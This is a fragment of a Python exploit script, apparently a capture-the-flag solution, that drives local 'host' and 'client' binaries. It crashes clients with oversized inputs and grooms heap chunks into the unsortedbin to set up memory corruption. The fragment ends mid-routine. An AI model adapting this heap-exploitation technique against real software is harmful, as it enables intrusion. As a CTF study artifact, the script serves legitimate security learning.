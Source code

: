 ```python
    if wait:
        sock.recvuntil('Menu')

def recv_data(sock, show=False):
    sock.sendlineafter('> ', '3')
    if show:
        print(sock.recvuntil('Menu', drop=True))

def get(name, is_host, wait):
    if is_host:
        r = process('./host')
    else:
        r = process('./client')
    r.sendlineafter("what's your name? >", name)
    if wait:
        r.recvuntil('connected...\n')
    return r

def crash(sock):
    set_data(sock, 'str', 'c')
    set_data(sock, 'int', str(0x10000000000000000000))
    send_data(sock, wait=False)
    sock.close()

def send(ff, tt, t, data):
    set_data(ff, t, data)
    send_data(ff, wait=True)
    recv_data(tt)

"""
when we use send_data to invoke client,
we send three datas (type, len, data)
"""
def aasend2h(h, data): # +2 datas
    c = get(data, is_host=False, wait=True) # get 1 data
    send_data(h, wait=True) # send 3 datas
    crash(c)

T_INT = 1
T_STR = 2

def way1():
    h = get('A', is_host=True, wait=False)
    c = get('B', is_host=False, wait=False)
    send(c, h, 'str', b'A'*0x208) # 0x210 (inuse), 0x420(0x415) -> unsortedbin
    crash(c)

    aasend2h(h, str(T_STR))
    aasend2h(h, str(0x410)) # will get 0x420 chunk, which in unsortedbin
    aasend2h(h, b64encode(b'OWO'))
    ## clear fifo with valid data ##
    tmp = get('2', is_host=False, wait=False)
    crash(tmp)
    tmp = get('1', is_host=False, wait=False)
    crash(tmp)
    tmp = get('A', is_host=False, wait=False)
    crash(tmp)
    tmp = get('2', is_host=False, wait=False)
    crash(tmp)
    tmp = get('1', is_host=False, wait=False)
    crash(tmp)

    ## last client need to hold the pipe ##
```
